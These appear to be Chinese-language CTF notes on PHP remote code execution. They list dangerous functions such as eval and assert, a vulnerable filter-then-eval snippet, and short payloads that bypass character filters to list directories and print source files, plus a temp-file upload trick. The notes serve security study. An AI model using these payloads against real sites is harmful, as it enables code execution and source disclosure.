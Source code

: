 ### 1.与RCE相关的危险函数 

 eval()  将字符串当作php代码执行
 assert()  将字符串当作php代码执行
 preg_replace()  将字符串正则匹配后替换
 call_user_func()  回调函数
 array_map()   回调函数



使用print_r()进行输出

使用readfile()或highlight_file()读取文件

highlight_file() 函数对文件进行语法高亮显示，本函数是show_source() 的别名

next() 输出数组中的当前元素和下一个元素的值。

array_reverse() 函数以相反的元素顺序返回数组。(主要是能返回值)

scandir() 函数返回指定目录中的文件和目录的数组。

pos() 输出数组中的当前元素的值。

localeconv() 函数返回一个包含本地数字及货币格式信息的数组，该数组的第一个元素就是"."。

scandir（）用来获取目录文件

chr（47）是/的ASCII编码，因为/被过滤了



exp=print_r(scandir(pos(localeconv())))

打印数组

exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));

# 无数字无字母无~^

源码

```php
if(preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
    die("cerror");
    }
if(preg_match("/\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\{|\}|\[|\]|\'|\"|\:|\,/",$cmd)){
    die("serror");
    }
eval($cmd);
```

只可以使用p ` ? / + < > =1

思路就是上传文件生成临时文件，将真正想要执行的函数放到临时文件中，然后利用eval函数进行执行临时文件。

## `<?= $cmd ?> 等于 <?php echo($cmd) ?>`

在php中，`<? ?>`称为短标签，`<?php ?>`称为长标签。修改PHP.ini文件配置 short_open_tag = On 才可使用短标签。php5.4.0以后， `<?= `总是可代替 `<? echo`。还要使用`?>`将前面的闭合掉
